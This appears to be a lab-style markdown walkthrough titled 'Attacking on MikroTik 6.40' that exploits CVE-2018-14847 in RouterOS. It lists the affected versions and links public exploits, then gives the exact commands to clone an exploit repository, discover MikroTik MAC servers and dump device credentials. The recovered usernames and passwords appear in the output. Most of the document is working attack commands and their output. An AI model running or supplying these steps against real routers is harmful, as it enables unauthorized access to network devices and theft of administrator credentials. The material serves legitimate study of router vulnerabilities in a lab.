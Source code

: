 ## Attacking on MikroTik 6.40

### Exploit 1
`CVE-2018-14847`

All RouterOS versions from 2015-05-28 to 2018-04-20 are vulnerable to this exploit.  
Mikrotik devices running RouterOS versions: 6.29 - 6.43rc3  
[More details](https://mikrotik.com/supportsec/cve-2018-14847-winbox-vulnerability)  
[Exploit on GitHub 1](https://github.com/dharmitviradia/Mikrotik-WinBox-Exploit)  
[Exploit on GitHub 2](https://github.com/BigNerd95/WinboxExploit)  
[Exploit on Exploit-DB](https://www.exploit-db.com/exploits/45170)

```bash
└─$ cd exploit
└─$ git clone https://github.com/dharmitviradia/Mikrotik-WinBox-Exploit exploit
└─$ cd ..
```

```bash
└─$ sudo ip netns exec ns0 python3 exploit/MACServerDiscover.py   
```

```
Looking for Mikrotik devices (MAC servers)

        52:54:00:02:00:01
```

```bash
└─$ sudo ip netns exec ns0 python3 exploit/MACServerExploit.py 52:54:00:02:00:01
```

```
User: root
Pass: 123

User: admin
Pass: 

User: admin
Pass: F71rY26hMv2G
```

```bash
# Run the exploit in ns0 namespace for 192.168.88.1
└─$ sudo ip netns exec ns0 python3 exploit/exploit.py 192.168.88.1
```

```
192.168.88.1
User: root
Pass: 123

User: admin
Pass: F71rY26hMv2G
```
